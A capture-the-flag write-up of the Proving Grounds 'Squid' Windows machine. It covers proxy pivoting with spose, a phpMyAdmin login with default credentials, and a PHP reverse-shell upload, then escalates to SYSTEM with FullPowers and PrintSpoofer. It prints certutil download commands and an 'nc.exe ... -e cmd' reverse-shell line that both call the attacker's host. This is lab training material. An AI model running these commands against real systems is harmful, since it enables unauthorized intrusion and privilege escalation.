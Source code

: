 ```yaml
---
title: "Proving Grounds - Squid"
categories: [CTF, Proving Grounds - Play]
tags: [EASY, Windows, Web, Squid, provingrounds]
mermaid: true
image: ../assets/img/provingrounds/oscp.png
---
```


Squid was a challenging box that involved utilizing a Squid proxy to discover internal services, exploiting a phpMyAdmin file upload vulnerability to gain initial access, and then escalating privileges using Windows-specific techniques.

The process included using spose to identify internal services, leveraging the proxy to access a WampServer, and ultimately using FullPowers.exe and PrintSpoofer to gain SYSTEM access. 

This machine was a great way to practice working with proxy configurations and Windows privilege escalation.

# Diagram

```mermaid
graph TD
    A[Host Enumeration]
    A -->|Nmap Scan| B[Identify Squid Proxy]
    B -->|Explore Proxy Configuration| C[Tool: spose]
    C -->|Identify Internal Services| D[Web Service on 8080]
    D -->|Access WampServer| E[Identify phpMyAdmin]
    E -->|Bypass Authentication| F[Upload PHP Shell]
    F -->|Execute Reverse Shell| G[WinPEAS Enumeration]
    G -->|Identify Privilege Escalation| H[Leverage FullPowers.exe]
    H -->|Enable SeImpersonatePrivilege| I[Use PrintSpoofer]
    I -->|Privilege Escalation to SYSTEM| J[Obtain Root Access]
    J -->|Capture Evidence| K[Success]
```


## Information Gathering

### Port Scan
---

- `nmap -sS -Pn -n -T4 192.168.217.189` -p 135,139,445,3128
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled.png)
    
- `nmap -sVC -p 135,139,445,3128 -n -Pn 192.168.217.189 -v`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%201.png)
    

## Enumeration


### HTTP 80

---

- [http://192.168.217.189:3128/](http://192.168.217.189:3128/) → Apparently the website uses **squid/4.14**
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%202.png)
    

Squid is a caching and forwarding HTTP web proxy. It reduces bandwidth and improves response times by **caching** and reusing frequently-requested web pages. 

This is the squid repo https://github.com/squid-cache/squid 

I was searching in the GitHub, etc., but nothing worked. So i decided to try this: 

[https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid](https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid)

- `curl --proxy http://192.168.217.189:3128 http://192.168.45.227` →  *Directory Listening in my own machine*
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%203.png)
    

So after a while i decided to try this tool https://github.com/aancw/spose.git 

- `python spose.py --proxy http://192.168.45.227:3128 --target 192.168.45.227`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%204.png)
    

Ok, verifying if it’s an web page running in 8080

- `curl --proxy http://192.168.217.189:3128 http://192.168.217.189:8080`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%205.png)
    

Now setting up an http proxy with the extension Proxy Switcher [https://chrome.google.com/webstore/detail/proxy-switcher-and-manage/onnfghpihccifgojkpnnncpagjcdbjod?ref=benheater.com](https://chrome.google.com/webstore/detail/proxy-switcher-and-manage/onnfghpihccifgojkpnnncpagjcdbjod?ref=benheater.com) 

- `proxy swithcer`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%206.png)
    

And now trying to access it

- [http://192.168.237.189:8080/](http://192.168.237.189:8080/) → It’s a WampServer 3.2.3 - 64bit
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%207.png)
    
- [http://192.168.237.189:8080/phpsysinfo/index.php?disp=bootstrap](http://192.168.237.189:8080/phpsysinfo/index.php?disp=bootstrap)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%208.png)
    
- [http://192.168.237.189:8080/phpmyadmin/index.php](http://192.168.237.189:8080/phpmyadmin/index.php) → login panel MySQL - tried default creds (root:)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%209.png)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2010.png)
    

Verifying some documentation about phpMyAdmin...

[https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/](https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/) 

[https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f](https://gist.github.com/BababaBlue/71d85a7182993f6b4728c5d6a77e669f) 

- [http://192.168.237.189:8080/phpmyadmin/db_sql.php?db=hendrich_schema](http://192.168.237.189:8080/phpmyadmin/db_sql.php?db=hendrich_schema)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2011.png)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2012.png)
    
- [http://192.168.237.189:8080/uploader.php](http://192.168.237.189:8080/uploader.php)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2013.png)
    

Reverse shell must be for windows

[https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

- [http://192.168.237.189:8080/php_reverse_shell.php](http://192.168.237.189:8080/php_reverse_shell.php)
- `sudo  rlwrap nc -lvnp 80` → Nt authorithy
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2014.png)
    

- `flag`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2015.png)
    

## Priv Escalation

---

The first thing that i want to do is revoke all firewalls. I’ve tried but the user don’t have permission.

So after a while i decided to put winPEAS inside the machine

- `certutil.exe -urlcache -f http://192.168.45.227/winPEASx64.exe winPEASx64.exe`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2016.png)
    
- `winPEASx64.exe` → *Apparently* [https://exploit-db.com/exploits/46718](https://exploit-db.com/exploits/46718) *- CVE-2019-0836* [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/leaked-handle-exploitation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/leaked-handle-exploitation)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2017.png)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2018.png)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2019.png)
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2020.png)
    

Ok, nothing worked, but after enumerate, and after i saw that i was an nt authority but with “local service’

- `whoami`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2021.png)
    

I found this [https://itm4n.github.io/localservice-privileges/?ref=benheater.com](https://itm4n.github.io/localservice-privileges/?ref=benheater.com) After read the article i found that he did an script [https://github.com/itm4n/FullPowers/releases](https://github.com/itm4n/FullPowers/releases)

- `certutil.exe -urlcache -f http://192.168.45.227/FullPowers.exe FullPowers.exe`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2022.png)
    
- `FullPowers.exe -c "C:\Users\Public\Documents\nc.exe 192.168.45.227 4430 -e cmd" -z`
`sudo rlwrap nc -lvnp 4430`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2023.png)
    

- `whoami /priv` → Now i’ve SeImpersoantePrivilage enabled
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2024.png)
    

So i’ll use the https://github.com/itm4n/PrintSpoofer/releases

- `certutil.exe -urlcache -f http://192.168.45.227/PrintSpoofer64.exe PrintSpoofer64.exe`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2025.png)
    

- `PrintSpoofer64.exe -i -c cmd` → Priv escalado
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2026.png)
    

- `flag`
    
    ![Untitled](../assets/img/provingrounds/Squid/Untitled%2027.png)